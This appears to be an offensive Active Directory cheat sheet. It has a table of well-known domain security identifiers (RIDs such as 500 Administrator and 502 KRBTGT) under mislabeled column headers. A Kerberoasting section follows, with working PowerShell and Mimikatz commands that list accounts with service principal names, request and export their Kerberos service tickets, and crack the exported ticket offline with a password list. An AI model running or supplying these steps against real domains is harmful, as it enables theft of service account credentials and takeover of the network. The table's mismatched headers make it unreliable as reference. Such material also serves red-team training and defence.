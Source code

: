 #### WELL-KNOWN SECURITY IDENTIFIERS. (S-1-5-21domain)
| Property flag | Value in hexadecimal |
|---|---|
| 500 | Administrator |
| 501 | Guest |
| 502 | KRBTGT |
| 512 | Domain Admins |
| 513 | Domain Users |
| 514 | Domain Guests |
| 515 | Domain Computers |
| 516 | Domain Controllers |
| 517 | Cert Publishers |
| 518 | Schema Admins |
| 519 | Enterprise Admins |
| 520 | Group Policy Creator Owners |
| 526 | Key Admins |
| 527 | Enterprise Key Admins |
| 553 | RAS and IAS Servers |
---
#### KERBEROAST
Main objective: Search account with SPN and crack TGS ticket
- Find user accounts
```powershell
Get-NetUser -SPN
Get-NetUser -SPN | Format-List name,distinguishedName,servicePrincipalName
#
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```
- Request a TGS
```powershell
Request-SPNTicket
#
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/lab-mgmt.domain.local"
```
- Check if the TGS has been granted
```powershell
klist
```
- Export all tickets using Mimikatz
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```
- Crack the Service account password
```powershell
python.exe .\tgsrepcrack.py .\password.list .\2-40a10000-jane@MSSQLSvc~lab-mgmt.domain.local-DOMAIN.LOCAL.kirbi
```

---